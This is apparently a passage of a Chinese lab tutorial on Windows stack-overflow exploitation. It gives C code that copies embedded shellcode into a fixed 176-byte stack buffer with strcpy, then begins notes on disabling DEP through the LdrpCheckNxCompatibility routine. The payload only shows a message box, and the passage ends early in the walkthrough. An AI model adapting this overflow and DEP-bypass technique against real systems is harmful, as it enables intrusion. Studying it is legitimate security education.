 	#include <string.h>

	#include <stdio.h>

	#include <windows.h>

	char shellcode[]=

	"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"

	"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"

	"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"

	"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"

	"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"

	"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"

	"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"

	"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"

	"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"

	"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"

	"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"

	;

	void test()

	{

		char tt[176];

		strcpy(tt,shellcode);

	}

	int main()

	{

		HINSTANCE hInst = LoadLibrary("shell32.dll");

		char temp[200];

		test();

		return 0;

	}

实验环境：
![](http://ww1.sinaimg.cn/large/7fb67c86gy1g1kzop0o00j20mi06zgnf.jpg)

根据LdrpCheckNxCompatibility关闭DEP的流程，我们需要把al置为1，所以先用插件

![](<http://ww1.sinaimg.cn/large/7fb67c86gy1g1hh337s90j20gj0ayt9d.jpg>)

我们用下面选中的这个，顺便还找到了DEP的地址
